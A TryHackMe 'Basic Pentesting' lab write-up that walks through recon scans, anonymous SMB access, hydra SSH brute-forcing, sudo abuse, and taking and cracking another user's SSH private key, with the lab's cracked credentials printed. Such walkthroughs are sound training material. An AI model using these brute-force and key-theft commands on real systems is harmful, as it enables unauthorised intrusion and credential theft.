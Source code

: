 <div align="center">
  
# بسم الله الرحمن الرحيم  

</div>

# TryHackMe: Basic Pentesting Writeup by Mohammed (Azima)

**Room Link:** [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)  
**Difficulty:** Easy  

## 1. Reconnaissance

### Nikto Scan
```bash
nikto -h http://10.10.140.120/
```
![image](https://github.com/user-attachments/assets/27960e1b-c49b-4bdb-af65-cb6403c6beb3)

#### Really simple scan and Got me as Directory which Got from goBuster also You can skip it
### Nmap Scan
```bash
nmap -sV -A -T4 <TARGET_IP>
```
## Open Ports and Services

### Port 22 (SSH)
- **Service**: OpenSSH 7.2p2 Ubuntu 4ubuntu2.4
- **Details**:
  - SSH host keys found (RSA, ECDSA, ED25519)
  - Ubuntu Linux OS indication

### Port 80 (HTTP)
- **Service**: Apache httpd 2.4.18 (Ubuntu)
- **Details**:
  - Server header confirms Apache/2.4.18 on Ubuntu
  - No title returned (text/html content)

### Ports 139/445 (SMB)
- **Service**: Samba smbd 4.3.11-Ubuntu
- **Details**:
  - Workgroup: WORKGROUP
  - NetBIOS computer name: BASIC2
  - Samba version: 4.3.11-Ubuntu
  - Security mode: Message signing enabled but not required
  - Guest access allowed
  - OS identification as Windows 6.1 (Samba's Windows compatibility layer)

### Port 8009 (AJP13)
- **Service**: Apache Jserv (Protocol v1.3)
- **Details**:
  - Supported methods: GET, HEAD, POST, OPTIONS

### Port 8080 (HTTP)
- **Service**: Apache Tomcat 9.0.7
- **Details**:
  - Possible open proxy
  - Tomcat default page visible

### Web Enumeration
```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Discovered:**
- `/development` - Contains two files:
  - `dev.txt`
 
    
    ![image](https://github.com/user-attachments/assets/38100a51-be7e-47a9-a506-d0f52a92422a)

  - `j.txt`
 
    
    ![image](https://github.com/user-attachments/assets/bd39dc78-a756-42e3-a095-2e126c7f46cf)

- `/server-status` - Gives (Forbidden:
You don't have permission to access /server-status on this server.)

## 2. Exploitation

### SMB Enumeration
```bash
smbclient -L //<TARGET_IP> -N
```
Found an anonymous share.
Made Ls to see Files Then made get staff.txt to download the file and then opened it and found that 

![image](https://github.com/user-attachments/assets/a0455013-9802-4ffb-97a4-d0861161de3e)


### Brute-Forcing SSH
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://<TARGET_IP>
```

**Credentials Found:**
- **Username:** jan
- **Password:** armando

**SSH Access:**
```bash
ssh jan@<TARGET_IP>
```

## 3. Privilege Escalation

### Checking Sudo Permissions
```bash
sudo -l
```
Discovered jan could run `/bin/bash` as user kay:
```bash
sudo -u kay /bin/bash
```

### Accessing Kay's SSH Key
Found private key at `/home/kay/.ssh/id_rsa`

**Cracking Process:**
```bash
python /usr/share/john/ssh2john.py id_rsa > kay_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash.txt
```
**Cracked Passphrase:** `beeswax`

**Logged in as kay:**
```bash
ssh -i id_rsa kay@<TARGET_IP>
```

### Root Flag
Found in `/root/root.txt` after further enumeration.

## 4. Lessons Learned
- 🚨 **Weak Passwords:** Default credentials (jan:armando) allowed initial access
- ⚠️ **Misconfigured Sudo:** Improper sudo permissions enabled privilege escalation
- 🔑 **Exposed SSH Keys:** Private keys without strong passphrases are dangerous

---

🔗 **More Writeups:** [My GitHub Security Writeups](https://github.com/Mohammed-Abdelaziem/Writeups)
